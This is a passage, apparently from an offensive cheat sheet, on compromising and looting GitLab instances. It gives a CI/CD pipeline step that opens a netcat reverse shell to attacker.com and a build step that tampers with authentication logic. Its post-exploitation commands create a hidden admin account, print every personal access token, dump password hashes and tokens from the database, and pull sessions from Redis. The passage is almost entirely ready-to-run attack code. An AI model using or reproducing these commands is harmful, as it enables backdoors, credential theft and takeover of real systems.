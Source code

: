 ### 2. Backdoor via CI/CD
```yaml
deploy:
  script:
    - apt-get update && apt-get install -y netcat
    - nohup nc -e /bin/bash attacker.com 4444 &
    - echo "Deploy completed"
```

### 3. Supply Chain Attack
```yaml
build:
  script:
    - sed -i 's/return true/return false/g' src/auth.js
    - npm run build
```

## Post-Exploitation

### 1. GitLab Rails Console
```bash
# If you have shell access
gitlab-rails console

# Create admin user
user = User.new(username: 'hacker', email: 'hacker@evil.com', name: 'Hacker', password: 'password123')
user.admin = true
user.skip_confirmation!
user.save!

# Extract tokens
PersonalAccessToken.all.each { |t| puts "#{t.user.username}: #{t.token}" }
```

### 2. Database Access
```bash
# PostgreSQL access
gitlab-psql -d gitlabhq_production

# Dump users
SELECT username, email, encrypted_password FROM users;

# Extract tokens
SELECT * FROM personal_access_tokens;
```

### 3. Redis Exploitation
```bash
# Access Redis
redis-cli

# Get all keys
KEYS *

# Extract sessions
GET session:gitlab:*
```
